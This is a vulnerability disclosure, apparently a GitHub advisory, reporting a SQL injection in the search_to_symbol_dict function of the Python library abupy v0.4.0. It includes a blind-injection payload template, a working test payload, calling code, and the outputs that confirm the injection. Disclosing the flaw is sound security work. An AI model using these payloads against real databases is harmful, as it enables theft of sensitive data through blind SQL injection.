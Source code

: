 Vulnerability Product: abupy v0.4.0  
Vulnerability version: v0.4.0  
Vulnerability type: SQL Injection  
Vulnerability Details:  
Vulnerability location: abupy.MarketBu.ABuSymbol.search_to_symbol_dict

SQL Injection in abupy v0.4.0 causes arbitrary SQL code execution 

## [](#header-3)PROVE: 

Payload: ```"us10101' union select case when {code you wanna execute} then 'usJASNW' else 'usTROVW' end where ''='"```  
Test_payload: ```"us10101' union select case when sqlite_version() = '3.31.1' then 'usJASNW' else 'usTROVW' end where ''='"```  
Usage: ```abupy.MarketBu.ABuSymbol.search_to_symbol_dict("us10101' union select case when sqlite_version() = '3.31.1' then 'usJASNW' else 'usTROVW' end where ''='")```  

Firstly download abupy latest version(v0.4.0)
```
pip install abupy
```

Secondly import abupy.MarketBu.ABuSymbol, and call abupy.MarketBu.ABuSymbol.search_to_symbol_dict with test_payload as argument(abupy.MarketBu.ABuSymbol.search_to_symbol_dict is a functional api which author mentioned in the comments of the function, It is legal and normal for users to call this function)
```py
import abupy.MarketBu.ABuSymbol
print(abupy.MarketBu.ABuSymbol.search_to_symbol_dict("us10101' union select case when sqlite_version() = '3.31.1' then 'usJASNW' else 'usTROVW' end where ''='"))
```

Finally you can find the result is `{'JASNW': 'JASON INDS INC'}`  
if you replace `sqlite_version() = '3.31.1'` with `sqlite_version() != '3.31.1'`  
you can find the result is`{'TROVW': 'TROVAGENE INC'}`

proved sql code execution

## [](#header-3)HARM: 

Programmers may mistakenly use the functions in this library as part of the backend of the web application, allowing attackers to call the functions and return sensitive database data.  
The above payload is just an example, attackers can construct payload to obtain complete database sensitive information in a way similar to sql blind injection

discovered by leeya_bug
